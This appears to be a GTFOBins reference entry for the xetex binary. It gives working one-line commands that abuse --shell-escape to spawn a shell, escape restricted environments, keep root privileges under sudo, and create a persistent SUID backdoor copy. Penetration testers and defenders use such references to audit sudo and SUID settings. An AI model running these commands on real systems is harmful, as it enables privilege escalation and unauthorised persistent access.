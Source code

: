 # GTFOBin: xetex

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
xetex --shell-escape '\write18{/bin/sh}\end'
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo xetex --shell-escape '\write18{/bin/sh}\end'
```

## Limited SUID

If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via `system()`-like invocations) it only works on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which xetex) .

./xetex --shell-escape '\write18{/bin/sh}\end'
```
